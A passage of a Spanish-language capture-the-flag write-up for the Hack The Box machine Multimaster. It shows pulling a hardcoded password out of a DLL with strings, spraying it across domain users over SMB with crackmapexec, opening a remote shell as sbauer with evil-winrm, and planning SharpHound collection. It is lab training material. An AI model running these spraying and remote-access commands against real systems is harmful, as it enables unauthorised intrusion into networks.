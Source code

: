 Vemos la lista de caracteres imprimibles con `strings`, pero al ser un ejecutable de windows usaremos el parametro `-e l` para que nos liste mayor informacion.


```bash
❯ strings -e l MultimasterAPI.dll
FROM
WHERE
LIKE
INFORMATION_SCHEMA
MASTER
{ "info" : "MegaCorp API" }
application/json
server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
```

Obtenemos una nueva contraseña y volveremos a validarla con `crackmapexec` si corrsponde a otro usuario.


```bash
❯ crackmapexec smb 10.10.10.179 -u users.txt -p 'D3veL0pM3nT!' --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\lana:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT!
```

Con estas nuevas credenciales nos volvemos a conectar con `evil-winrm` y tendriamos acceso esta vez como `sbauer`

```bash
❯ evil-winrm -i 10.10.10.179 -u 'sbauer' -p 'D3veL0pM3nT!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami
megacorp\sbauer
```

Seguidamente subiremos el ejecutable `sharphound.exe` para recopilar datos de `DC` que posteriormente con `bloodhound` interpretaremos.
